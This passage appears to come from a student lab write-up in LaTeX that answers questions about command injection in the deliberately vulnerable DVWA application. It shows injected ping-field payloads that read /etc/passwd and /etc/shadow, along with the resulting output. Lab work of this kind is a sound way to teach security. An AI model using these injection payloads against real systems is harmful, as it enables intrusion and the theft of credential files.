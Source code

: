 \documentclass[12pt]{article}
\begin{document}
\textbf{Q6. What command did you use to get this information?}

\subsubsection{Answer}



\begin{lstlisting}[style=terminal]
127.0.0.1; tail -n 1 /etc/passwd
\end{lstlisting}

\subsection{Question 7}

\textbf{Q7. Can you list the contents of the \texttt{/etc/shadow} file? Why might you NOT be able to list the contents of this file using the above technique?}

\subsubsection{Attempted Command}

\begin{lstlisting}[style=terminal]
127.0.0.1; cat /etc/shadow
\end{lstlisting}

\subsubsection{Output Obtained}

\begin{lstlisting}[style=terminal]
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
[Ping results]

user:*:18605:0:99999:7:::
\end{lstlisting}

\subsubsection{Answer}

Yes, I was able to see part of the \texttt{/etc/shadow} file. Normally, you should not be able to do this because the \texttt{/etc/shadow} file is only readable by the root user. The web server runs as \texttt{www-data}, which doesn't have permission to read this file. Accessing it shows a security problem, possibly due to the low security setting in DVWA.

\section{Conclusion}
\end{document}
